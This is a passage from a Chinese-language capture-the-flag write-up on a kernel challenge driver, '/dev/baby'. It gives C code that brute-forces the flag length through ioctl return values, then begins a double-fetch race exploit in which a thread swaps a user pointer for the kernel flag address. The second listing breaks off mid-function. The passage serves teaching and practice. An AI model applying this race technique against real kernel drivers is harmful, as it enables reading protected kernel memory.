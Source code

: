 通过之前的判断后，就会与flag的长度进行比较，我们可以利用这个判断来爆破flag的长度（虽然flag是被硬编码在驱动文件中的，可以直接看到长度，但就太没意思了）。下面提供一个代码：

```
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>

struct info
{
    char *msg;
    size_t len;
};

int main()
{
    int fd = open("/dev/baby", 0);
    int rret;
    struct info myinfo;
    myinfo.msg = "test";
    myinfo.len = 0;
    for (int i=0;i<0x40;i++)
    {
        myinfo.len = i;
        rret = ioctl(fd, 0x1337, &myinfo);
        printf ("return : %d\n", rret);
        if (rret == 0x16)
            printf ("get flag len : %d\n", i);
    }
    return 0;
}
```
过了上面的检测后就会逐位与flag比较我们显然是不满足这个条件的。

这里我们可以在判断flag地址范围和flag内容之间进行竞争，通过第一处的检查之后就把flag的地址偷换成内核中真正flag的地址;然后自身与自身做比较，通过检查得到flag....

实现起来就是创建一个恶意线程,不断的将user_flag所指向的用户态地址修改为flag的内核地址以制造竞争条件,从而使其通过驱动中的逐字节比较检查,输出flag内容....

```
#include <stdio.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <string.h>
#include <fcntl.h>

struct info{
    char * buf;
    uint64_t len;
};
struct info my_info; 
uint64_t flag_ptr;
int finish = 0;
void change(){
    while(finish == 0){
        puts("123");
        my_info.buf = flag_ptr;
    }
}
int main(){
    int driver_fd = open("/dev/baby",0);
    ioctl(driver_fd, 0x6666);
```